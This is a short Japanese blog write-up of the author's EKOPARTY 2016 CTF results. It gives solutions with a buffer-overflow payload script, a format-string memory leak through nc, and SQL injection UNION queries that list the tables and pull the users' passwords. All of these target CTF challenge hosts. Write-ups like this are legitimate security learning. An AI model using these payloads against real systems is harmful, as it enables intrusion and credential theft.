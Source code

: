 ```yaml
---
layout: post
title: EKOPARTY 2016 writeup
---
```


CTF wo Suruで参加しました. 850ptsで, 110/721位でした.

時間なくてあまり参加出来なくて, 頭付いてないので問題も全然解けなかったです.

学園祭の準備とかダンス部とかで, ここ1ヶ月くらい何もしてなくて何もしてないです.

11/12にサイバー甲子園ってのあるんですけど, 何もしなさすぎて最下位になりそう.

はい, writeup書いていきます.

web25, web50, pwn25, pwn100しか解いてないです.

web100途中まで解いて終わりです.

## web25

robots.txt

`EKO{robot_is_following_us}`


## web50

```
$ curl -I ctf.ekoparty.org
HTTP/1.1 301 Moved Permanently
Server: EKO{this_is_my_great_server}
Date: Thu, 27 Oct 2016 05:51:15 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: https://ctf.ekoparty.org/
```

`EKO{this_is_my_great_server}`


## Pwn 25

```python
from No___Op import *

target = "9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site:55000"

c = Pwning( target ) 

payload  = "A" * 24
payload += "\xf3"

c.write(payload)

c.dbg_shell()
```

`EKO{Welcome_to_pwning_challs_2k16}`

## Pwn 100

```bash
$  nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Welcome to my first service
Please input the secret key: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x[
Invalid key: AAAA 0 a 0 0 0 a 0 454b4f7b 4c614269 67426566 3072647d 0 41414141 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025[

Please input the secret key: 
Invalid key: 

Please input the secret key: ^C
[tsun@host-163-44-172-213 tmp]$ python
Python 2.6.6 (r266:84292, Aug 18 2016, 15:13:37) 
[GCC 4.4.7 20120313 (Red Hat 4.4.7-17)] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> ''.join('454b4f7b 4c614269 67426566 3072647d'.split()).decode('hex')
```

`EKO{LaBigBef0rd}`


## web 100(解けなかった)

`1' union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema != 'information_schema';#`

から `users` というテーブルが見つかる

`1' union select 1,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 0x7573657273;#`

`id,username,password` というカラム

`1' union select 1,group_concat(password) from users;#`


* * *

ダメです！ｗ
